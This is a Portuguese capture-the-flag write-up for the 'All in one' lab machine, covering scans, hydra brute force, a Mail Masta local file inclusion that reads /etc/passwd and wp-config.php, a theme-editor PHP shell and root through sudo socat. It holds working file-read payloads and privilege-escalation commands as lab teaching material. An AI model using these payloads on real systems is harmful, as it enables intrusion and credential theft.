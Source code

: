 # _**All in one CTF**_
![](all.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos login anônimo via FTP e um _web-server_  
Vamos investigar primeiro apenas a página web  
Parece ser a página _default_ do Apache2  
Agora, vamos realizar login via FTP  
Nenhum arquivo  

Segundo, vamos realizar uma enumeração de diretórios com <mark>Gobuster</mark>
> ```
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Temos um diretório _wordpress_  
Vamos realizar novamente um scan com <mark>Gobuster</mark>, mas com uma _wordlist_ diferente  
> ```bash
> gobuster dir --url [ip_address]/wordpress -w ../seclists/Discovery/Web-Content/CMS/wordpress.fuzz.txt
> ```
![](wp_gobuster.jpg)

Temos um LONGO retorno  
Mas por enquanto, iremos deixar de lado  
Vamos investigar a página seguindo alguns links encontrados  
Após um pouco de leitura, um dos links que nos chama a atenção é: _/wordpress/wp-login.php_  
Verificando, temos uma página de login  

## _**Ganhando acesso**_

Tentamos primeiro qualquer login, nada  
Segundo, tentamos login com credenciais de administrador (admin:admin), também nada  
Terceiro, o _username_ no site, **elyana**, com credenciais normais, nenhum sucesso  

Já fazia um tempo que não acontecia, mas resolvi tentar um <mark>brute force com hydra</mark>  
E sucesso!  

![](hydra_brute.jpg)  

Apesar, nenhuma das senhas funcionou  
Parece que vamos ter que achar outra maneira  
Com nenhuma outra opção em mente, voltamos a estaca zero e novamente com um scan de diretórios
> ```bash
> gobuster dir --url [ip_address] -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
> ```
![](medium.jpg)

Verificando o novo diretório encontrado, parece que temos uma senha  
Vamos tentar na página de login do wordpress com elyana  
Nada  
Jogando a senha no google, parece que está criptografada com **Vigènere**  
Usando a ferramenta <mark>CyberChef</mark>, temos resultado  

![](vigènere.jpg)

Tentano realizar login com o usuário elyana e essa nova senha, mas nada!  
Vamos buscar outras maneiras  
Com a ferramenta <mark>wpscan</mark>, que realiza varreduras automáticas em sites WordPress para detectar diversas informações, incluindo vulnerabilidades!  
> ```bash
> wpscan — url [ip_address]/wordpress -e u
> wpscan — url [ip_address]/wordpress -e ap
> ```
![](user_detected.jpg)  

![](plugins.jpg)

Parece que temos 3 informações valiosas:
* ```username```: elyana (já mencionado)
* ```plugin```: <mark>mail-masta</mark> e <mark>reflex-gallery</mark>

Procurando por vulnerabilidades referentes a estes _plugins_, encontramos o seguinte:
* [WordPress Plugin Mail Masta 1.0 - Local File Inclusion](https://www.exploit-db.com/exploits/40290)
* [WordPress Plugin Reflex Gallery 3.1.3 - Arbitrary File Upload](https://www.exploit-db.com/exploits/36374)

Vamos tentar explorar LFI  
Tentando a seguinte URL: ```../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd```  

![](etc_passwd.jpg)  

Sucesso!  
Vamos tentar buscar <mark>wp-config.php</mark>  
URL: ```../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php```  

![](config_php.jpg)

Decodificando a _string_ base64, temos:  

![](base_decrypt.jpg)

Investigando o arquivo, encontramos usuário e senha para **elyana**  
Vamos realizar login  
Após, navegamos para: <mark>Appearance > Theme Editor ></mark>  
Nele, trocamos na lateral para _theme_functions_ e adicionamos nosso código _.PHP_  
Nisso, conseguimos obter uma shell!  

![](shell.jpg)  

## _**Escalando privilégios**_
Para escalarmos privilégios, vamos investigar o sistema com alguns comandos  

![](find.jpg)

Parece que temos o serviço ```pkexec``` e também na versão <mark>0.105</mark>  
Sabemos já como escalar privilégios  
Mas parece que não iremos conseguir, permissão negada  
Vamos buscar outra maneira  
Uma dica diz que no sistema, a senha de **elyana** está escondida  
> ```bash
> find / -user elyana -type f -exec grep -iE 'user|password' {} \; 2>/dev/null
> ```
![](user_pass.jpg)

Sucesso!  
Vamos tentar login via SSH  
Conseguimos  
Agora para escalarmos privilégios, vamos primeiro executar o comando ```sudo -l```  

![](sudo_l.jpg)

Podemos executar o seguinte comando para obter _root_
> ```bash
> sudo socat - EXEC:'sh -li',pty,stderr,setsid,sigint,sane
> ```
![](root.jpg)

Agora só ir atrás das flags que estão criptografadas em **base64**
